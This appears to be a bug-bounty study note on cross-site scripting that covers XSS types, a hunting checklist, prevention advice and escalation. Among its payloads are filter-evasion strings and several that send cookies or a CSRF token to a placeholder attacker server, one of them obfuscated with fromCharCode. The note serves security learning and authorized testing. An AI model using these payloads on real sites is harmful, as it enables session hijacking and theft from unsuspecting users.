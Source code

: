 # Mechanisms and How it works

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.
## Types of XSS
There are three Main kinds of XSS: The difference between these types is in how the XSS payload travels before it gets delivered to the victim user.
- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting#reflected-cross-site-scripting), where the malicious script comes from the current HTTP request.
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting#stored-cross-site-scripting), where the malicious script comes from the website's database.
- [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting), where the vulnerability exists in client-side code rather than server-side code.

# Hunting for XSS

#### Step 1: Look for Input Opportunities

- look for opportunities to submit user input(comment, user profiles, blog posts, forms, search, and name and username fields in sign-ups)
- even the drop down menus and numeric values are chances (u can edit the value in Burp)
- for reflected and DOM (URL parameters, fragments `#`, or pathnames that get displayed back)
#### Step 2: Insert Payloads

-  Inject different payloads like event handlers`<img src=x onerror=alert('Hunter')>`
- Try different URL scheme `javascript:alert`, `data:text/html,<script>alert('XSS by Vickie')</script>` Try encoding 
- check for user to load an image by using a URL and use it as their profile picture:   `https://example.com/upload_profile_pic?url=IMAGE_URL`
- Take a look at the [XSS cheatsheet]([Cross-Site Scripting (XSS) Cheat Sheet - 2023 Edition | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) from PortsWigger.
- Browser use different tags and event handlers, so test by using different browsers 
- Close out previous HTML tags `<img src=""/><script>location="http://attacker.com";</script>">`
- inject special chars and STUDY the response `>'<"//:=;!--`
- use XSS hunter for blind XSS


# Methodology and Testing Checklist

- search for input fields like comments and URL params
- Fuzz parameter using Arjun and param-miner to get hidden params
- inject special chars and STUDY the response `>'<"//:=;!--` and make payload from the ones that worked and didn't get escaped or encoded
- Can you inject into non-changing values (e.g. usernames)?
- the app escaping or deleting the `<Script>`tags?
	- Try event handlers 
	- Try URL scheme `javascript:alert`, `data:text/html,<script>alert('Hunter')
	- Use Recursive tags `<scrip<script>t>location='http://attacker_server_ip/c='+document.cookie;</scrip</script>t>`
	- Try capitalization and encoding
	- Try eval() function
- the App filters the special chars like the single and double quotes?
	- Use the fromCharCode function
	  `<scrIPT>location=String.fromCharCode(104 116 116 112 58 47 47 72 117 110 116 101 114 47 63 99 61)+document.cookie;` to map the ascii to string
-  Try HTTP Parameter Pollution
- look at  [WSTG - v4.2: Testing for XSS](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting) | [Cross-Site Scripting (XSS) Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) | [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
# Prevention

For more detailed guides look at [PortSwigger: How to prevent XSS](https://portswigger.net/web-security/cross-site-scripting) | [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- Filter input on arrival
- Encode data on output: encode the output to prevent it from being interpreted as active content
- use the `Content-Type` and `X-Content-Type-Options` headers to ensure that browsers interpret the responses in the way you intend.
- Use Content Security Policy (CSP) to reduce the severity of any XSS vulnerabilities that still occur
- escaping especial chars
- use HTML entities function
- sanitize and validate every user input
# Escalating the Attack

Steal CSRF Token of the user and send it to your server as a parameter in the logs

```javascript
var token = document.getElementsById('csrf-token')[0];
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
xhr.send(null)
```

- automatically redirect the victim to malicious pages and perform other harmful operations such as installing malware
- make sure to assess the full impact of that particular XSS to include in your vulnerability report.
# Automating XSS Hunting

If the program you are targeting allows automatic testing, you can use Burp intruder or other fuzzers like wfuzz or FFUF to conduct an automatic XSS scan on your target, 
u can find many payloads for that here  [Cross-Site Scripting (XSS) Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) | [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

# Finding Your First XSS!
1. Look for user input opportunities on the application
2. Insert XSS payloads into the user input fields you’ve found. Insert payloads from lists online, a polyglot payload, or a generic test string
3. Confirm the impact of the payload by checking whether your browser runs your JavaScript code. Or in the case of a blind XSS, see if you can make the victim browser generate a request to your server.
4. If you can’t get any payloads to execute, try bypassing XSS protections.
5. Automate the XSS hunting process
6. Consider the impact of the XSS you’ve found: who does it target? How many users can it affect? And what can you achieve with it? Can you escalate the attack by using what you’ve found?
# References 

Recommended Writeup: [How I Found Multiple XSS Vulnerabilities Using Unknown Techniques](https://infosecwriteups.com/how-i-found-multiple-xss-vulnerabilities-using-unknown-techniques-74f8e705ea0d)